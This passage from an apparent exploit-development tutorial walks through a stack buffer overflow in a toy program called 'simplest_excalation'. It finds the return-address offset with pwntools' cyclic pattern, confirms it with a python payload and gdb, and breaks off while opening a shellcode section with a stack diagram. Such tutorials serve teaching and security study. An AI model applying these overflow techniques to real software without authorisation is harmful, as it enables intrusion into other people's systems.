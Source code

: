 If we overwrite the right register with the right (existent) address we can
alter the **computation model**.

To find the right offset to overwrite ``pc`` I could try a few inputs with different
lengths; a trick instead is to use
a [De Bruijn Pattern](https://en.wikipedia.org/wiki/De_Bruijn_sequence): a string with
a precise non repeating pattern.

Exists a python toolbox: [pwntools](https://github.com/Gallopsled/pwntools) that provides some command line tools, between them
there is the ``cyclic`` tool that can help me

```text
$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
$ ./simplest_excalation
What's your name? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
hello, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

now you can see that the faulting address is different

```text
0x6161616c in ?? ()
```

``cyclic`` has a lookup functionality that can perform the offset calculation
for us:

```text
$ cyclic -l 0x6161616c
44
```

At this point we can double check that we have the offset we are looking for

```text
$ python -c "print 'A'*44 + 'BBBB' " | ./simplest_excalation
 ...
$ gdb -p `pidof simplest_excalation`
...
Program received signal SIGSEGV, Segmentation fault.
...
0x42424242 in ?? ()
```

Remember to always double check that the offset you have found allows to put the desired
value where you want.

For a simple program like that I could have found the offset simply looking at the instructions:
it's obvious that ``name`` is located at ``%ebp - 0x28``, since the ``pc`` register is one word
above ``ebp`` this gives an offset of 44 from the start of the buffer.

### Shellcode

Now I have a good estimate of the memory organization around the ``name`` buffer

```text
<<< lower addresses                                                                                       upper addresses >>>

[local variables after buffer][            name            ][local variables before buffer][addr old ebp][addr eip][...
|                             |<-------------------------- 44 bytes ----------------------------------->||
|                              `-start of buffer                                                        ||
'----------------------------------------------- greeting()'s frame ------------------------------------''- main()'s frame
```
